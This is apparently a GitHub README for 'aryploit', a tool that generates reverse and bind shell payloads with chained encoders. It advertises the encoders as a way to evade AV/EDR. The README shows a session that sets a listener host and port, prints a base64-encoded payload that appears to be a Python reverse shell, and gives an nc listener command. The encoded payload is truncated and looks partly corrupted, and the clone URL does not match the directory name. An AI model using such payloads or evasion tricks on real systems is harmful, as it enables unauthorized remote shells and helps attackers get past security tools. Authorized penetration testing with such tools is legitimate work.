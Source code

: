 <div align="center">
  <h1>🔥 ARYPLOIT</h1>
  <p>
    <strong>Metasploit-style reverse/bind shell generator with advanced encoders for red teamers & pentesters</strong>
  </p>

</div>

---

## **🚀 What is ARYPLOIT?**
**aryploit** is a **Metasploit-inspired**, **all-in-one payload generator** for **reverse shells, bind shells, and advanced encoding**. Built for **red teamers, pentesters, and CTF players**, it simplifies payload generation with **10+ encoders**, **cross-platform support (Linux/Windows/Web)**, and **evasion techniques** to bypass AV/EDR.

⚠️ **For authorized testing & educational purposes only.**

---

## **🔥 Features**
✅ **100+ Payloads** – Reverse & bind shells for **Linux, Windows, PHP, ASP, JSP, PowerShell, Python, Ruby, Perl, and more**.
✅ **Advanced Encoders** – Chain **Base64, URL, Hex, ROT13, XOR, Caesar, Binary, Octal, HTML, Unicode** for evasion.
✅ **Search & Filter** – Quickly find payloads with `search payload linux` or `search encoders base64`.
✅ **Listener Examples** – Auto-generate **Netcat, Socat, Python** listener commands.
✅ **Modular & Extensible** – Easy to add **custom payloads, encoders, and listeners**.
✅ **CTF & Red Team Ready** – Designed for **real-world engagements** and **capture-the-flag challenges**.

---

## **📌 Installation**
### **From GitHub (Recommended)**
```bash
git clone https://github.com/giriaryan694-a11y/aryploi.git
cd aryploit


pip3 install -r requirements.txt
python3 aryploit.py

1. List Payloads
 Copyaryploit > list rev_payloads linux
reverse/linux/bash_tcp
reverse/linux/python
reverse/linux/perl
...
Filter by keyword:
 Copyaryploit > search payload tcp
reverse/linux/bash_tcp
reverse/windows/powershell
...
2. Select a Payload
 Copyaryploit > use reverse/linux/bash_tcp
[+] Loaded payload: reverse/linux/bash_tcp
Or use set payload:
 Copyaryploit > set payload reverse/linux/bash_tcp
3. Set LHOST & LPORT
 Copyaryploit > set lhost 10.0.0.1
aryploit > set lport 4444
4. Apply Encoders (Single or Chained)
 Copyaryploit > set encoder base64,url,hex
[+] Encoder chain set: base64, url, hex
5. Generate Payload
 Copyaryploit > generate
[+] Generated Payload:
aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjAuMC4xIiw0NDQ0KSk7b3MuZHVwMjoocy5maWxlbm8oKSwMCk9TKSwgb3MuZHVwMjoo...
6. Start a Listener
 Copyaryploit > listener nc
[+] Listener Example (nc): nc -lvnp 4444
```
🛠️ Encoders (Evasion & Obfuscation)

platform type     lang & method
Windows Reverse  cmd,powershell.nc
Web     Reverse  PHP, ASP, JSP, ASPX
Linux   Reverse  bash, nc, python, perl, ruby, socat, openssl, telnet
Linux   Bind     nc, bash, socat, python, perl
Windows Bind     nc, powershell

Full list: Run list rev_payloads or list bind_payloads.

🔍 Why ARYPLOIT?
🚀 Faster than Metasploit for quick payload generation.
🛡️ Bypasses basic AV/EDR with encoder chaining.
🎓 Perfect for learning reverse shells & evasion.
🔧 Extensible – Add your own payloads & encoders.

📢 Contributing
Contributions are welcome! Open a Pull Request or issue for:

New payloads
Better encoders
Bug fixes
Documentation improvements

Code of Conduct: Be respectful & ethical.

⚠️ Legal Disclaimer
⚠️ ARYPLOIT is for authorized testing only.
⚠️ Unauthorized use is illegal.
⚠️ The author is not responsible for misuse.

📣 Spread the Word
If you find aryploit useful, star ⭐ this repo and share it with your friends!
Follow for updates:

📜 License
This project is licensed under the MIT License – see LICENSE for details.

<div align="center">
  <sub>Built with ❤️ by <a href="https://github.com/giriaryan694-a11y">Aryan Giri</a></sub>
</div>
```
